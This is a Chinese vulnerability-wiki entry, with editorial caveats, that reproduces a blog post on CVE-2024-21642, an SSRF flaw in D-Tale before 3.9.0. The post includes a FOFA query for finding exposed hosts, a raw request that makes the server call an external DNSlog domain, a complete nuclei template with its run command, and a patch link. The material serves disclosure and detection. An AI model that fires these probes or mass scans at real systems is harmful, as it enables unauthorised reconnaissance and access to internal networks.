





# CVE-2024-21642

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：D-Tale
- 文献类型：SSRF复现与检测模板
- 版本、权限及部署边界：<3.9.0；/dtale/web-upload可达并允许URL导入，部署绑定地址/认证/上传配置未列
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. DNS回连只证明服务端解析受控域名，不证明内网访问、响应读取、file协议或任意端口/载荷均支持
2. 通用SSRF危害清单必须与本漏洞实际请求库和协议限制区分，critical评级无CVSS/官方依据
3. 模板verified:true只是转载声明；使用固定DNS服务例子应改保留域名并区分受控观察
4. 有man-group官方修复commit，应补3.9.0默认配置变化及是否需显式禁用功能，不能仅升级最新一笔带过
5. 实际产品为数据探索Web服务，Pandas是依赖/使用对象非受影响库；推广删去

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://dnslog.pw/dns/，当然任何DNSLOG都可以>
- 原文参考链接（未重新核验）：<https://github.com/man-group/dtale/commit/954f6be1a06ff8629ead2c85c6e3f8e2196b3df2>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-01-24 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
**应粉丝要求小编将往期poc和我在网上收集的一些poc打包分享到网盘了。同时分享了大量电子书和护网常用工具，在文末免费获取。**  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
D-Tale SSRF漏洞  
  
  
**简单介绍下什么是SSRF漏洞（老鸟略过）：**  
  
SSRF（Server-Side Request Forgery，服务端请求伪造），是攻击者让服务端发起构造的指定请求链接造成的漏洞。  
  
  
  
  
由于存在防火墙的防护，导致攻击者无法直接入侵内网；这时攻击者可以以服务器为跳板发起一些网络请求，从而攻击内网的应用及获取内网数据。  
  
  
**SSRF漏洞形成的原因：**  
  
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）  
  
  
大都是由于服务端提供了从其它服务器获取数据的功能，比如使用户从指定的URL web应用获取图片、下载文件、读取文件内容等。但又没有对目标地址做严格过滤与限制，导致攻击者可以传入任意的地址来让后端服务器对其发送请求，并返回对该目标地址请求的数据。  
  
  
**SSRF漏洞的危害：**  
  
1.扫内网  
  
2.向内部任意主机的任意端口发送精心构造的Payload  
  
3.D  
OS攻击（请求大文件，始终保持连接Keep-Alive Always）  
  
4.攻  
击内网的web应用，主要是使用GET参数就可以实现的攻击（比如struts2，sqli等）  
  
5.利用file协议读取本地文件  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
D-Tale <3.9.0  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
D-tale 是一个在2020年2月推出的库，是 Pandas 数据结构的可视化工具。它具有许多功能，对于探索性数据分析非常方便、支持交互式绘图、3d 绘图、热图、特征之间的相关性、构建自定义列等。  
D-Tale 3.9.0 之前的 D-Tale 版本存在SSRF漏洞，攻击者能够以此为跳板攻击内网。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"dtale/static/images/favicon.png"
```  
  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，其中  
a4xs0nop.dnslog.pw  
是DNS地址，没有的可以去注册一个http://dnslog.pw/dns/，当然任何DNSLOG都可以。  
```
GET /dtale/web-upload?type=csv&url=http%3A%2F%2Fa4xs0nop.dnslog.pw HTTP/1.1
Host: your-ip
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```  
  
  
DNS平台新增记录  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-21642

info:
  name: D-Tale SSRF漏洞
  author: fgz
  severity: critical
  description: D-tale 是一个在2020年2月推出的库，是Pandas数据结构的可视化工具。它具有许多功能，对于探索性数据分析非常方便、支持交互式绘图、3d 绘图、热图、特征之间的相关性、构建自定义列等。D-Tale 3.9.0 之前的 D-Tale 版本存在SSRF漏洞，攻击者能够以此为跳板攻击内网。
  metadata:
    max-request: 1
    fofa-query: "dtale/static/images/favicon.png"
    verified: true
requests:
  - raw:
      - |+
        GET /dtale/web-upload?type=csv&url=http%3A%2F%2F{{interactsh-url}} HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json, text/plain, */*
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
        Connection: close

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-21642.yaml -l data/D-tale.txt
```  
  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
打上补丁或者升级到最新版。  
```
https://github.com/man-group/dtale/commit/954f6be1a06ff8629ead2c85c6e3f8e2196b3df2
```  
  
  
08  
  
—  
  
福利领取  
  
  
关注公众号，在公众号主页点发消息发送关键字免费领取。  
  
  
  
**后台发送【****电子书**  
**】关键字获取学习资料网盘地址**  
  
****  
**后台发送【POC】关键字获取POC网盘地址**  
  
  
**后台发送【工具】获取渗透工具包**  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
